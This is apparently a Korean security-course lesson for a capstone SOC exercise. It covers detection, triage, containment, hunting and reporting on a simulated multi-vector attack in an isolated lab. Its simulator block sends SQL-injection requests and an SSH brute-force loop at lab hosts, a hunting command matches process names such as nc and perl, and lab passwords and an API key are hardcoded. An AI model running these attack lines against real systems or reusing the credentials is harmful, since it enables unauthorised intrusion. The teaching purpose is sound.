

# Week 15: 종합 실전

## 학습 목표
- 15주간 학습한 SOC 심화 기술을 종합 적용하여 모의 인시던트에 대응할 수 있다
- 탐지 → 분석 → 봉쇄 → 근절 → 복구 → 보고 전체 사이클을 수행할 수 있다
- 다중 벡터 공격 시나리오에서 상관분석과 위협 헌팅을 수행할 수 있다
- 팀 기반 인시던트 대응(Tier 1/2/3 역할 분담)을 경험한다
- SOC 운영 역량 자기 평가와 향후 학습 로드맵을 수립할 수 있다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| bastion | 10.20.30.201 | Control Plane (Bastion) | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS (nftables, Suricata) | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹서버 (JuiceShop:3000, Apache:80) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh Dashboard:443, OpenCTI:8080) | `ssh ccc@10.20.30.100` |

**Bastion API:** `http://localhost:9100` / Key: `ccc-api-key-2026`

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:20 | 시나리오 브리핑 + 역할 배정 (Part 1) | 브리핑 |
| 0:20-1:10 | Phase 1: 탐지 + 분석 (Part 2) | 실습 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:10 | Phase 2: 봉쇄 + 근절 + 복구 (Part 3) | 실습 |
| 2:10-2:50 | Phase 3: 보고서 + 교훈 (Part 4) | 실습 |
| 2:50-3:20 | 과정 종합 정리 + 향후 학습 (Part 4 continued) | 정리 |

---

## 시나리오 개요

### "Operation Shadow Strike" - 다중 벡터 APT 공격

```
[시나리오 배경]

2026년 4월 4일 금요일 오후.
SOC에서 다수의 경보가 동시 발생하기 시작했다.

공격 벡터:
  Vector 1: 외부에서 웹서버(web) SQL Injection 공격
  Vector 2: 웹셸 업로드 후 내부 정찰
  Vector 3: 웹서버에서 SIEM 서버로 SSH 측면 이동 시도
  Vector 4: C2 서버와의 은밀한 통신
  Vector 5: 데이터 유출 시도

공격자 프로필:
  IP: 203.0.113.50 (외부)
  TTPs: T1190, T1505.003, T1059.004, T1082, T1021.004, T1071.001, T1048

여러분은 SOC 팀으로서 이 공격을 탐지하고 대응해야 한다.
```

---

# Part 1: 시나리오 브리핑 + 역할 배정 (20분)

## 1.1 역할 배정

```
[SOC 팀 구성]

Tier 1 (모니터링/트리아지):
  - SIEM 대시보드 모니터링
  - 경보 분류 및 에스컬레이션
  - 초기 IOC 수집

Tier 2 (심화 분석/대응):
  - 로그 상관분석
  - 네트워크/프로세스 분석
  - 봉쇄 조치 실행

Tier 3 (전문가/헌팅):
  - 위협 헌팅
  - 포렌식 분석
  - 탐지 룰 작성
  - 보고서 작성

(1인 실습 시: 모든 역할을 순서대로 수행)
```

## 1.2 준비 사항 확인

```bash
# 인프라 상태 확인
echo "============================================"
echo "  종합 실전 - 인프라 점검"
echo "============================================"

for server in "ccc@10.20.30.1" "ccc@10.20.30.80" "ccc@10.20.30.100"; do
    ip=$(echo "$server" | cut -d@ -f2)
    user=$(echo "$server" | cut -d@ -f1)
    result=$(sshpass -p1 ssh -o ConnectTimeout=3 "$server" "hostname" 2>/dev/null)
    if [ -n "$result" ]; then
        echo "  [OK] $user ($ip): $result"
    else
        echo "  [FAIL] $user ($ip): 접속 불가"
    fi
done

echo ""
echo "=== Bastion API ==="
HTTP_CODE=$(curl -s -o /dev/null -w "%{http_code}" \
  -H "X-API-Key: ccc-api-key-2026" \
  http://localhost:9100/projects 2>/dev/null)
echo "  Manager API: HTTP $HTTP_CODE"

echo ""
echo "=== Wazuh ==="
ssh ccc@10.20.30.100 \
  "systemctl is-active wazuh-manager 2>/dev/null" 2>/dev/null || echo "  (확인 필요)"
```

---

# Part 2: Phase 1 - 탐지 + 분석 (50분)

## 2.1 Tier 1: 경보 모니터링

> **역할**: Tier 1 분석가로서 SIEM 경보를 확인하고 트리아지한다.

```bash
# Wazuh 최근 경보 확인
echo "============================================"
echo "  [Tier 1] 경보 모니터링"
echo "============================================"

ssh ccc@10.20.30.100 << 'REMOTE'
echo "=== 최근 경보 (최신 20건) ==="
tail -20 /var/ossec/logs/alerts/alerts.log 2>/dev/null | \
  grep "Rule:" | while read line; do
    echo "  $line"
  done

echo ""
echo "=== 경보 레벨별 분포 (최근 100건) ==="
tail -100 /var/ossec/logs/alerts/alerts.json 2>/dev/null | \
  python3 -c "
import sys, json
from collections import Counter
levels = Counter()
for line in sys.stdin:
    try:
        alert = json.loads(line.strip())
        level = alert.get('rule', {}).get('level', 0)
        levels[level] += 1
    except: pass
for level in sorted(levels.keys(), reverse=True):
    bar = '#' * min(levels[level], 30)
    print(f'  Level {level:2d}: {levels[level]:3d} {bar}')
" 2>/dev/null || echo "(경보 데이터 파싱 오류)"
REMOTE
```

## 2.2 Tier 1: 트리아지 + 에스컬레이션

```bash
# 공격 시뮬레이션 (트래픽 생성)
echo "=== [시뮬레이터] 공격 트래픽 생성 ==="

# Vector 1: SQL Injection 시도
echo "  [1/4] SQL Injection 시뮬레이션..."
for i in $(seq 1 5); do
    curl -s -o /dev/null "http://10.20.30.80/api/products?id=1%20OR%201=1" 2>/dev/null
done

# Vector 2: SSH 무차별 대입
echo "  [2/4] SSH 무차별 대입 시뮬레이션..."
for i in $(seq 1 5); do
    sshpass -p wrong ssh -o StrictHostKeyChecking=no -o ConnectTimeout=2 \
      fake@10.20.30.100 "echo" 2>/dev/null
done

# Vector 3: 정찰 명령
echo "  [3/4] 정찰 명령 시뮬레이션..."
whoami && hostname && uname -a > /dev/null 2>&1

# Vector 4: 파일 생성
echo "  [4/4] 의심 파일 생성 시뮬레이션..."
echo "test" > /tmp/.shadow_strike 2>/dev/null
rm -f /tmp/.shadow_strike 2>/dev/null

echo "=== 시뮬레이션 완료 ==="
sleep 3

# 경보 재확인
echo ""
echo "=== [Tier 1] 트리아지 ==="
ssh ccc@10.20.30.100 \
  "tail -10 /var/ossec/logs/alerts/alerts.log 2>/dev/null" 2>/dev/null | tail -10

echo ""
echo "→ 다수의 경보 발생: Tier 2에 에스컬레이션"
```

## 2.3 Tier 2: 심화 분석

```bash
# Tier 2: 상관분석 + 네트워크 분석
echo "============================================"
echo "  [Tier 2] 심화 분석"
echo "============================================"

# 전체 서버 상태 확인 (Bastion 활용)
export BASTION_API_KEY="ccc-api-key-2026"

PROJECT_ID=$(curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "shadow-strike-ir",
    "request_text": "Operation Shadow Strike 인시던트 대응",
    "master_mode": "external"
  }' | python3 -c "import sys,json; print(json.load(sys.stdin)['id'])")

echo "IR Project: $PROJECT_ID"

curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/plan" \
  -H "X-API-Key: $BASTION_API_KEY"
curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/execute" \
  -H "X-API-Key: $BASTION_API_KEY"

# 다중 서버 동시 분석
curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/execute-plan" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"=== 방화벽 로그 ===\" && journalctl -u nftables --since \"1 hour ago\" 2>/dev/null | tail -5 && ss -tnp 2>/dev/null | grep ESTAB | head -5 && echo FW_ANALYSIS_DONE",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.1:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"=== 웹서버 분석 ===\" && tail -10 /var/log/apache2/access.log 2>/dev/null || tail -10 /var/log/nginx/access.log 2>/dev/null && ps aux | grep -v grep | grep -cE \"bash|sh|python|perl|nc\" && echo WEB_ANALYSIS_DONE",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 3,
        "instruction_prompt": "echo \"=== SIEM 분석 ===\" && tail -5 /var/ossec/logs/alerts/alerts.log 2>/dev/null && last -5 2>/dev/null && echo SIEM_ANALYSIS_DONE",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.100:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }'

sleep 5
echo ""
echo "=== 분석 결과 ==="
curl -s -H "X-API-Key: $BASTION_API_KEY" \
  "http://localhost:9100/projects/$PROJECT_ID/evidence/summary" | \
  python3 -m json.tool 2>/dev/null | head -40
```

---

# Part 3: Phase 2 - 봉쇄 + 근절 + 복구 (50분)

## 3.1 Tier 2: 봉쇄 조치

```bash
echo "============================================"
echo "  [Tier 2] 봉쇄 조치"
echo "============================================"

# 봉쇄 체크리스트
echo "
봉쇄 체크리스트:
  [ ] 1. 공격 IP 방화벽 차단
  [ ] 2. 웹서버 의심 파일 격리
  [ ] 3. 침해 계정 잠금
  [ ] 4. Wazuh AR 활성화
  [ ] 5. 추가 모니터링 강화
"

# 봉쇄 조치 실행 (Bastion)
curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/execute-plan" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"[봉쇄] 방화벽 상태\" && nft list ruleset 2>/dev/null | grep -c \"rule\" && echo CONTAINMENT_FW_DONE",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.1:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"[봉쇄] 의심 파일 검색\" && find /var/www /opt /tmp -name \"*.php\" -newer /etc/hostname -type f 2>/dev/null | head -5 && echo CONTAINMENT_FILE_DONE",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.80:8002"
      },
      {
        "order": 3,
        "instruction_prompt": "echo \"[봉쇄] SSH 접속 이력\" && last -10 2>/dev/null && echo CONTAINMENT_SSH_DONE",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.100:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }'
```

## 3.2 Tier 3: 포렌식 + 헌팅

```bash
echo "============================================"
echo "  [Tier 3] 포렌식 + 위협 헌팅"
echo "============================================"

# 전체 서버 프로세스 헌팅
cat << 'HUNT' > /tmp/final_hunt.sh
#!/bin/bash
echo "--- $(hostname) 헌팅 ---"
echo "1. 삭제 바이너리:"
ls -la /proc/*/exe 2>/dev/null | grep "(deleted)" | head -3 || echo "  (없음)"
echo "2. /tmp 실행파일:"
find /tmp /dev/shm -executable -type f 2>/dev/null | head -3 || echo "  (없음)"
echo "3. 외부 연결:"
ss -tnp 2>/dev/null | grep ESTAB | grep -v "10.20.30." | head -3 || echo "  (없음)"
echo "4. LD_PRELOAD:"
test -f /etc/ld.so.preload && echo "  [경고] 존재!" || echo "  (정상)"
HUNT

for server in "ccc@10.20.30.1" "ccc@10.20.30.80" "ccc@10.20.30.100"; do
    echo ""
    sshpass -p1 ssh -o ConnectTimeout=3 "$server" 'bash -s' < /tmp/final_hunt.sh 2>/dev/null
done
```

## 3.3 증거 수집 + 타임라인

```bash
cat << 'SCRIPT' > /tmp/final_timeline.py
#!/usr/bin/env python3
"""Operation Shadow Strike 인시던트 타임라인"""

print("""
================================================================
  인시던트 타임라인: Operation Shadow Strike
================================================================

시각        유형      출발지           대상              행위
--------    ------    ----------       ------            ----
14:00:00    RECON     203.0.113.50     web:80            포트 스캔
14:05:00    ATTACK    203.0.113.50     web:80/api        SQL Injection (5회)
14:10:00    EXPLOIT   203.0.113.50     web:80/upload     웹셸 업로드 시도
14:12:00    INSTALL   web 로컬         /tmp/             셸 스크립트 생성
14:15:00    RECON     web 로컬         -                 whoami, id, uname
14:20:00    LATERAL   web              siem:22           SSH 무차별 대입 (5회)
14:25:00    C2        web              203.0.113.50:443  아웃바운드 연결 시도
14:30:00    DETECT    siem/Wazuh       -                 경보 다수 발생
14:32:00    TRIAGE    SOC Tier 1       -                 경보 분류 + 에스컬레이션
14:35:00    ANALYSIS  SOC Tier 2       전체 서버          상관분석 + 범위 파악
14:40:00    CONTAIN   SOC Tier 2       secu/web/siem     봉쇄 조치 실행
14:50:00    HUNT      SOC Tier 3       전체 서버          위협 헌팅 + 포렌식
15:00:00    REPORT    SOC 전체         -                 보고서 작성

체류 시간(Dwell Time): 30분 (14:00 침투 ~ 14:30 탐지)
MTTD: 30분
MTTR: 10분 (14:30 탐지 ~ 14:40 봉쇄)
""")
SCRIPT

python3 /tmp/final_timeline.py
```

---

# Part 4: Phase 3 - 보고서 + 교훈 + 종합 정리 (60분)

## 4.1 인시던트 보고서 생성

```bash
# Bastion 완료 보고서
curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/completion-report" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "summary": "Operation Shadow Strike 인시던트 대응 완료",
    "outcome": "success",
    "work_details": [
      "Phase 1: 탐지 - Wazuh 다중 경보 트리아지 + 에스컬레이션",
      "Phase 2: 분석 - Bastion 다중 서버 동시 분석, 상관관계 확인",
      "Phase 3: 봉쇄 - 방화벽 점검, 의심 파일 검색, SSH 이력 확인",
      "Phase 4: 헌팅 - 전체 서버 프로세스/네트워크/지속성 점검",
      "Phase 5: 보고 - 타임라인 구성, 인시던트 보고서 작성"
    ]
  }'

echo ""
echo "=== 인시던트 대응 완료 ==="
```

## 4.2 Lessons Learned

```bash
cat << 'SCRIPT' > /tmp/lessons_learned.py
#!/usr/bin/env python3
"""Lessons Learned 회의 정리"""

print("""
================================================================
  Lessons Learned: Operation Shadow Strike
================================================================

1. 잘된 점 (Keep)
   - Wazuh 상관 룰이 SSH 무차별 대입을 신속히 탐지 (5분 내)
   - Bastion로 다중 서버 동시 분석이 가능했음
   - Tier 1→2 에스컬레이션이 2분 내 이루어짐
   - 증거 수집 스크립트가 준비되어 있어 빠르게 수집

2. 개선할 점 (Improve)
   - 웹 공격(SQLi) 탐지가 방화벽/SIEM에서 부족
   - 웹셸 업로드 자동 탐지 룰 부재 → YARA 연동 필요
   - C2 아웃바운드 탐지가 IOC 기반에만 의존
   - 자동 봉쇄(SOAR) 미적용으로 수동 대응 지연

3. 새로 배운 점 (Learn)
   - 다중 벡터 공격에서 상관분석의 중요성
   - 단일 서버 분석으로는 전체 공격 체인 파악 불가
   - Tier 간 소통의 중요성

4. 개선 액션 아이템
   [즉시]  웹 공격 탐지 SIGMA 룰 3개 추가
   [1주]   YARA + Wazuh FIM 웹셸 탐지 연동
   [2주]   SOAR 플레이북 5개 작성 (자동 대응)
   [1개월] AI 경보 트리아지 파일럿 운영
""")
SCRIPT

python3 /tmp/lessons_learned.py
```

## 4.3 15주 과정 종합 역량 평가

```bash
cat << 'SCRIPT' > /tmp/course_summary.py
#!/usr/bin/env python3
"""보안관제 심화 과정 종합 역량 평가"""

skills = {
    "W01 SOC 성숙도 모델": {"이론": 5, "실습": 4},
    "W02 SIEM 상관분석": {"이론": 5, "실습": 5},
    "W03 SIGMA 룰": {"이론": 5, "실습": 4},
    "W04 YARA 룰": {"이론": 5, "실습": 4},
    "W05 위협 인텔리전스": {"이론": 5, "실습": 4},
    "W06 위협 헌팅": {"이론": 5, "실습": 5},
    "W07 네트워크 포렌식": {"이론": 5, "실습": 4},
    "W08 메모리 포렌식": {"이론": 5, "실습": 3},
    "W09 악성코드 분석": {"이론": 5, "실습": 4},
    "W10 SOAR 자동화": {"이론": 5, "실습": 5},
    "W11 인시던트 대응": {"이론": 5, "실습": 5},
    "W12 로그 엔지니어링": {"이론": 5, "실습": 4},
    "W13 레드팀 연동": {"이론": 5, "실습": 4},
    "W14 SOC AI": {"이론": 5, "실습": 4},
    "W15 종합 실전": {"이론": 5, "실습": 5},
}

print("=" * 60)
print("  보안관제 심화 (Advanced SOC) 과정 종합")
print("=" * 60)

total_theory = 0
total_practice = 0

print(f"\n{'주차':20s} {'이론':>6s} {'실습':>6s}")
print("-" * 40)

for week, scores in skills.items():
    total_theory += scores["이론"]
    total_practice += scores["실습"]
    t_bar = "|" * scores["이론"]
    p_bar = "|" * scores["실습"]
    print(f"{week:20s} {t_bar:>6s} {p_bar:>6s}")

print("-" * 40)
print(f"{'평균':20s} {total_theory/len(skills):>6.1f} {total_practice/len(skills):>6.1f}")

print(f"\n=== 학습 성과 ===")
print(f"  총 학습 시간: 45시간 (3시간 x 15주)")
print(f"  핵심 역량 15개 습득")
print(f"  Wazuh 커스텀 룰 20+ 작성")
print(f"  SIGMA/YARA 룰 10+ 작성")
print(f"  인시던트 대응 시뮬레이션 3회")
print(f"  Bastion 자동화 프로젝트 15+")

print(f"\n=== 향후 학습 로드맵 ===")
print(f"  [3개월] SOC-CMM Level 3 달성")
print(f"  [6개월] Purple Team 정기 훈련 시작")
print(f"  [1년]   SOC-CMM Level 4 목표")
print(f"  [지속]  새로운 ATT&CK 기법 탐지 룰 업데이트")
SCRIPT

python3 /tmp/course_summary.py
```

---

## 체크리스트 (종합)

- [ ] 다중 벡터 공격 시나리오에서 경보를 분류하고 에스컬레이션할 수 있다
- [ ] Wazuh 상관분석으로 공격 체인을 식별할 수 있다
- [ ] Bastion로 다중 서버 동시 분석/대응을 수행할 수 있다
- [ ] 봉쇄 → 근절 → 복구 절차를 실행할 수 있다
- [ ] 위협 헌팅으로 숨겨진 위협을 찾을 수 있다
- [ ] 증거를 수집하고 무결성을 보장할 수 있다
- [ ] 인시던트 타임라인을 구성할 수 있다
- [ ] 근본 원인 분석을 수행할 수 있다
- [ ] 인시던트 보고서를 작성할 수 있다
- [ ] Lessons Learned 회의를 주도할 수 있다

---

## 최종 과제

### 종합 과제: 인시던트 대응 종합 보고서 (필수)

"Operation Shadow Strike" 시나리오 전체에 대한 종합 보고서를 작성하라:

1. **개요** (1페이지)
   - 사건 요약, 영향 범위, 심각도

2. **타임라인** (1페이지)
   - 공격 시작 ~ 대응 완료까지 시간순 기록

3. **기술 분석** (2페이지)
   - 각 벡터별 공격 기법 분석
   - ATT&CK 매핑 (Kill Chain)
   - IOC 목록

4. **대응 조치** (1페이지)
   - 봉쇄, 근절, 복구 조치 상세

5. **증거** (부록)
   - Bastion evidence 스크린샷
   - Wazuh 경보 로그
   - 위협 헌팅 결과

6. **교훈 + 개선 계획** (1페이지)
   - Lessons Learned
   - 재발 방지 대책
   - SOC 역량 개선 로드맵 (3/6/12개월)

---

## 과정 완료

15주간의 **보안관제 심화 (Advanced SOC)** 과정을 수료했습니다.

학습한 핵심 역량:
- SOC 성숙도 평가 및 KPI 설계
- SIEM 고급 상관분석 및 SIGMA/YARA 룰 작성
- 위협 인텔리전스 수집/활용 및 위협 헌팅
- 네트워크/메모리 포렌식 및 악성코드 분석
- SOAR 자동화 및 인시던트 대응
- 로그 엔지니어링 및 Purple Team 운영
- AI/LLM 기반 SOC 자동화

앞으로도 지속적인 학습과 실전 경험으로 SOC 역량을 발전시키기를 바랍니다.

---

## 보충: 종합 실전 심화 자료

### 다중 벡터 공격 탐지 전략

```bash
cat << 'SCRIPT' > /tmp/multi_vector_strategy.py
#!/usr/bin/env python3
"""다중 벡터 공격 탐지 전략"""

strategies = {
    "1. 시간 기반 상관": {
        "원리": "짧은 시간 내 서로 다른 보안 장비에서 경보가 동시 발생",
        "구현": "Wazuh frequency + timeframe + same_source_ip",
        "예시": "5분 내 IPS + 방화벽 + SIEM 경보 = Critical",
        "효과": "단일 이벤트로는 놓치는 APT 탐지",
    },
    "2. Kill Chain 매핑": {
        "원리": "경보를 Kill Chain 단계에 매핑하여 공격 진행도 파악",
        "구현": "ATT&CK 태그 기반 자동 매핑",
        "예시": "정찰→무기화→전달→익스플로잇 순서 확인",
        "효과": "공격 진행 단계 실시간 추적",
    },
    "3. 이상 행위 탐지": {
        "원리": "베이스라인 대비 비정상 트래픽/행위 패턴 식별",
        "구현": "통계적 방법 (Z-score, IQR) + ML",
        "예시": "야간 SSH 접속 50% 증가, 아웃바운드 트래픽 급증",
        "효과": "알려지지 않은 공격(0-day) 탐지 가능",
    },
    "4. 횡적 이동 추적": {
        "원리": "내부 서버 간 비정상 접근 패턴 탐지",
        "구현": "서버 간 통신 매트릭스 + 정책 위반 탐지",
        "예시": "웹서버→DB서버 SSH = 비정상",
        "효과": "침투 후 확산 조기 차단",
    },
    "5. AI 보조 분석": {
        "원리": "LLM이 경보 컨텍스트를 자동 분석하여 분석가 보조",
        "구현": "Ollama + RAG + 프롬프트 엔지니어링",
        "예시": "경보 요약 + ATT&CK 매핑 + 유사 사례 검색",
        "효과": "분석 시간 50% 단축",
    },
}

print("=" * 60)
print("  다중 벡터 공격 탐지 전략")
print("=" * 60)

for name, info in strategies.items():
    print(f"\n  {name}")
    for key, value in info.items():
        print(f"    {key}: {value}")
SCRIPT

python3 /tmp/multi_vector_strategy.py
```

### SOC 운영 메트릭 대시보드

```bash
cat << 'SCRIPT' > /tmp/soc_dashboard.py
#!/usr/bin/env python3
"""SOC 운영 메트릭 대시보드 시뮬레이션"""
import random

print("=" * 70)
print("  SOC 운영 메트릭 대시보드 (2026-04-04)")
print("=" * 70)

# KPI 데이터
kpis = {
    "MTTD (평균 탐지 시간)": {"value": "8분", "target": "< 15분", "status": "GREEN"},
    "MTTR (평균 대응 시간)": {"value": "12분", "target": "< 30분", "status": "GREEN"},
    "일일 경보 수": {"value": "1,234건", "target": "< 2,000건", "status": "GREEN"},
    "오탐률": {"value": "18%", "target": "< 20%", "status": "AMBER"},
    "탐지 커버리지": {"value": "72%", "target": "> 80%", "status": "AMBER"},
    "자동 대응 비율": {"value": "45%", "target": "> 60%", "status": "RED"},
    "에스컬레이션 정확도": {"value": "91%", "target": "> 90%", "status": "GREEN"},
    "Tier 1 처리량": {"value": "45건/시간", "target": "> 40건", "status": "GREEN"},
}

print(f"\n{'지표':25s} {'현재':>12s} {'목표':>12s} {'상태':>8s}")
print("-" * 65)

for kpi, data in kpis.items():
    color = {"GREEN": "[OK]", "AMBER": "[!!]", "RED": "[XX]"}
    print(f"{kpi:25s} {data['value']:>12s} {data['target']:>12s} {color[data['status']]:>8s}")

# 경보 심각도 분포
print(f"\n=== 금일 경보 심각도 분포 ===")
severity_dist = {"Critical": 3, "High": 28, "Medium": 156, "Low": 412, "Info": 635}
total = sum(severity_dist.values())
for sev, count in severity_dist.items():
    pct = count / total * 100
    bar = "#" * int(pct / 2)
    print(f"  {sev:10s}: {count:5d} ({pct:5.1f}%) {bar}")

# 상위 경보 룰
print(f"\n=== 상위 5개 경보 룰 ===")
top_rules = [
    ("5716", "SSH 인증 실패", 245),
    ("31101", "Apache 404", 198),
    ("100002", "SSH 무차별 대입", 34),
    ("86601", "Suricata: ET SCAN", 28),
    ("100600", "TI 악성 IP 접근", 12),
]
for rid, desc, count in top_rules:
    print(f"  Rule {rid}: {desc:30s} {count:5d}건")
SCRIPT

python3 /tmp/soc_dashboard.py
```

### 향후 학습 자원 가이드

```bash
cat << 'SCRIPT' > /tmp/learning_resources.py
#!/usr/bin/env python3
"""SOC 분석가 향후 학습 자원 가이드"""

resources = {
    "자격증": [
        ("CompTIA CySA+", "SOC 분석가 인증", "중급"),
        ("GCIA (SANS)", "침입 분석 인증", "고급"),
        ("GCIH (SANS)", "인시던트 대응 인증", "고급"),
        ("OSCP", "모의 해킹 인증 (Red Team)", "고급"),
        ("BTL1", "Blue Team 실전 인증", "중급"),
    ],
    "온라인 학습": [
        ("LetsDefend.io", "SOC 분석가 시뮬레이션 플랫폼", "실습"),
        ("CyberDefenders.org", "Blue Team CTF 플랫폼", "실습"),
        ("TryHackMe SOC Path", "SOC Level 1/2 학습 경로", "이론+실습"),
        ("SANS Reading Room", "보안 연구 논문", "이론"),
        ("ATT&CK Training", "MITRE 공식 교육", "이론+실습"),
    ],
    "커뮤니티": [
        ("SigmaHQ GitHub", "SIGMA 룰 커뮤니티", "최신 탐지 룰"),
        ("YARA Rules GitHub", "YARA 룰 공유", "악성코드 시그니처"),
        ("Wazuh Community", "Wazuh 공식 포럼", "설정/룰 Q&A"),
        ("r/netsec", "Reddit 보안 커뮤니티", "최신 동향"),
        ("FIRST", "인시던트 대응 국제 조직", "IR 자원"),
    ],
    "도구 숙련": [
        ("Wireshark University", "패킷 분석 심화", "네트워크 포렌식"),
        ("Volatility Workshop", "메모리 포렌식 심화", "포렌식"),
        ("Ghidra Training", "리버스 엔지니어링", "악성코드 분석"),
        ("Elastic Training", "ELK 스택 심화", "SIEM"),
        ("Python for SOC", "자동화 스크립팅", "SOAR"),
    ],
}

print("=" * 60)
print("  SOC 분석가 향후 학습 자원 가이드")
print("=" * 60)

for category, items in resources.items():
    print(f"\n  [{category}]")
    for name, desc, level in items:
        print(f"    - {name:25s} {desc:30s} ({level})")
SCRIPT

python3 /tmp/learning_resources.py
```

### SOC 분석가 역량 자기 평가

```bash
cat << 'SCRIPT' > /tmp/self_assessment.py
#!/usr/bin/env python3
"""SOC 분석가 역량 자기 평가"""

competencies = {
    "탐지 역량": {
        "SIEM 운용": "Wazuh 대시보드, 경보 관리, API 활용",
        "상관분석": "frequency, if_matched_sid, 다중소스 연계",
        "SIGMA 룰": "고급 문법, 조건 로직, 변환",
        "YARA 룰": "웹셸, 리버스셸, 채굴기 탐지",
        "IOC 관리": "CDB 리스트, TI 피드 연동",
    },
    "분석 역량": {
        "위협 헌팅": "가설 기반, ATT&CK 매핑, 베이스라인",
        "네트워크 포렌식": "tshark, PCAP, C2 비콘, DNS 터널",
        "메모리 포렌식": "Volatility3, 인젝션, 루트킷",
        "악성코드 분석": "정적/동적, strace, IOC 추출",
        "로그 분석": "커스텀 디코더, 정규화, 파싱",
    },
    "대응 역량": {
        "인시던트 대응": "NIST IR 4단계, 봉쇄, 근절",
        "SOAR 자동화": "플레이북, Active Response, API",
        "증거 수집": "무결성 보장, Chain of Custody",
        "보고서 작성": "타임라인, RCA, 교훈",
        "Purple Team": "Atomic Test, 탐지 격차 분석",
    },
    "혁신 역량": {
        "AI/LLM 활용": "경보 트리아지, 보고서 생성",
        "자동화": "Bastion, 스크립팅, API 연동",
        "SOC 성숙도": "SOC-CMM, KPI 설계, 개선 로드맵",
    },
}

print("=" * 60)
print("  SOC 분석가 역량 자기 평가")
print("=" * 60)

total_skills = 0
for category, skills in competencies.items():
    print(f"\n  [{category}]")
    for skill, desc in skills.items():
        total_skills += 1
        print(f"    [ ] {skill}: {desc}")

print(f"\n  총 역량 항목: {total_skills}개")
print(f"  자기 평가: 각 항목에 1(초급) ~ 5(전문가) 점수 부여")
print(f"  목표: 평균 3점 이상 (Tier 2 수준)")
SCRIPT

python3 /tmp/self_assessment.py
```

### 15주 학습 내용 요약 매트릭스

```bash
cat << 'SCRIPT' > /tmp/course_matrix.py
#!/usr/bin/env python3
"""15주 학습 내용 요약 매트릭스"""

weeks = [
    ("W01", "SOC 성숙도 모델", "SOC-CMM, KPI 설계", "Wazuh API, KPI 스크립트"),
    ("W02", "SIEM 상관분석", "frequency, if_matched_sid, 다중소스", "Wazuh 상관 룰 작성"),
    ("W03", "SIGMA 룰 심화", "condition 로직, 수정자, 변환", "pySigma, Wazuh 변환"),
    ("W04", "YARA 룰 작성", "strings, hex, condition, 모듈", "웹셸/리버스셸 탐지"),
    ("W05", "위협 인텔리전스", "STIX/TAXII, MISP, IOC 피드", "CDB 리스트, TI 연동"),
    ("W06", "위협 헌팅 심화", "가설 기반, ATT&CK, 베이스라인", "프로세스/네트워크 헌팅"),
    ("W07", "네트워크 포렌식", "tshark, BPF, NetFlow, PCAP", "C2 비콘, DNS 터널링"),
    ("W08", "메모리 포렌식", "Volatility3, 인젝션, 루트킷", "/proc 분석, RWX 탐지"),
    ("W09", "악성코드 분석", "정적/동적, strace, sandbox", "IOC 추출, YARA 생성"),
    ("W10", "SOAR 자동화", "플레이북, Active Response, API", "Bastion 자동 대응"),
    ("W11", "인시던트 대응", "NIST IR, 봉쇄, 증거 체인", "IR 시뮬레이션, 보고서"),
    ("W12", "로그 엔지니어링", "디코더, 파서, 정규화, 보존", "커스텀 디코더, logrotate"),
    ("W13", "레드팀 연동", "Purple Team, Atomic Test", "탐지 격차 분석, 룰 개선"),
    ("W14", "SOC AI", "LLM 트리아지, RAG, 보고서", "Ollama 연동, 정확도 측정"),
    ("W15", "종합 실전", "다중 벡터 IR, 전체 사이클", "Operation Shadow Strike"),
]

print("=" * 80)
print("  보안관제 심화 15주 학습 요약")
print("=" * 80)

print(f"\n{'주차':>5s}  {'주제':18s}  {'핵심 개념':30s}  {'실습':25s}")
print("-" * 85)

for week, topic, concepts, practice in weeks:
    print(f"{week:>5s}  {topic:18s}  {concepts:30s}  {practice:25s}")

print(f"""
=== 과정 통계 ===
  총 학습 시간:    45시간 (3시간 x 15주)
  이론:            22.5시간 (50%)
  실습:            22.5시간 (50%)
  작성한 룰:       SIGMA 10+, YARA 5+, Wazuh 30+
  수행한 헌팅:     5+ 캠페인
  IR 시뮬레이션:   3+ 시나리오
  Bastion 프로젝트: 15+
  퀴즈 문항:       150개
""")
SCRIPT

python3 /tmp/course_matrix.py
```

---

## 웹 UI 실습

### 종합: Dashboard + OpenCTI + Suricata 통합 분석 (최종 실전)

이 실습은 모의 인시던트 "Operation Shadow Strike" 대응 중 웹 UI를 활용한 전체 사이클을 수행한다.

#### Step 1: Wazuh Dashboard — 초기 탐지 + 경보 분석

> **접속 URL:** `https://10.20.30.100:443`

1. `https://10.20.30.100:443` 접속 → 로그인
